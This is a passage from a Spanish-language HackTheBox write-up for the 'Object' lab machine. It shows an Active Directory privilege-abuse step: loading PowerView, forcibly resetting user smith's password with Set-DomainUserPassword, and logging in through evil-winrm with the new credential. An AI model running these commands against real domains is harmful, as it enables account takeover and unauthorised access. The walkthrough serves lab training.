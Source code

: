 Si vamos a la opción `abuse info`, vemos una manera de poder aprovecharnos de este privilegio, para ello primero debemos generar una contraseña en formato `SecureString` y ejecutar `Set-DomainUserPassword` que es una función de `Powerview.ps1` asi que primero debemos descargarnos el script e importarnos el modulo.

![](/assets/images/HTB/htb-writeup-Object/ob4.PNG)

* [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

```cmd
*Evil-WinRM* PS C:\Windows\Temp\Privesc> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Windows\Temp\Privesc> $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
*Evil-WinRM* PS C:\Windows\Temp\Privesc> Set-DomainUserPassword -Identity smith -AccountPassword $secPassword
```

Validamos y nos conectamos exitosamente como `smith` con la credencial que definimos.

```bash
❯ evil-winrm -i 10.10.11.132 -u 'smith' -p 'Password123!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
```
